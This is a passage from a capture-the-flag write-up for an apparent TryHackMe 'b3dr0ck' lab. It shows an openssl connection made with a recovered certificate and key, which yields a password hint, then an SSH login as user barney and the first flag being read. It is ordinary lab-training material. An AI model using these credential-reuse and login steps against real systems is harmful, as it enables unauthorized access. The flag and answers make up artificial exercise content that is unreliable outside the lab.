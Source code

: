 
- Save both certificate and key and use them to connect to port 54321 with OpenSSL since it is allowed. Then you can find Barney's password.

  ```
  openssl s_client -connect 10.10.123.173:54321 -cert certificate -key id_rsa

  [SNIP!]
      Start Time: 1748635794
      Timeout   : 7200 (sec)
      Verify return code: 18 (self-signed certificate)
      Extended master secret: no
      Max Early Data: 0
  ---
  read R BLOCK
  Welcome: 'Barney Rubble' is authorized.
  b3dr0ck> 
  
  b3dr0ck> ls -al
  Unrecognized command: 'ls -al'
  
  This service is for login and password hints
  b3dr0ck> password
  Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
  b3dr0ck> login
  Login is disabled. Please use SSH instead.
  ```

- Well, I tried cracking this MD5 hash with few tools but nothing worked. So I tried connecting with SSH with that hash and VOILA!

  ```
  ssh barney@10.10.123.173                       

  barney@10.10.123.173's password: 
  barney@b3dr0ck:~$ whoami
  barney
  barney@b3dr0ck:~$ id
  uid=1001(barney) gid=1001(barney) groups=1001(barney)
  ```
  
---

## 🧍 User Privilege Escalation

- OK, so first flag is already there. For the second and third flag we will need to escalate to Fred and then root.

  ```
  barney@b3dr0ck:~$ pwd
  /home/barney
  
  barney@b3dr0ck:~$ ls -al
  total 28
  drwxr-xr-x 3 barney barney 4096 Apr 30  2022 .
  drwxr-xr-x 4 root   root   4096 Apr 10  2022 ..
  -rw------- 1 barney barney   38 Apr 29  2022 barney.txt
  lrwxrwxrwx 1 barney barney    9 Apr 28  2022 .bash_history -> /dev/null
  -rw-r--r-- 1 barney barney  220 Apr 10  2022 .bash_logout
  -rw-r--r-- 1 barney barney 3771 Apr 10  2022 .bashrc
  drwx------ 2 barney barney 4096 Apr 30  2022 .cache
  -rw-r--r-- 1 root   root      0 Apr 30  2022 .hushlogin
  -rw-r--r-- 1 barney barney  807 Apr 10  2022 .profile
  lrwxrwxrwx 1 root   root      9 Apr 29  2022 .viminfo -> /dev/null
  
  barney@b3dr0ck:~$ cat barney.txt 
  THM{f05780f08f0eb1de65023069d0e4c90c}
  ```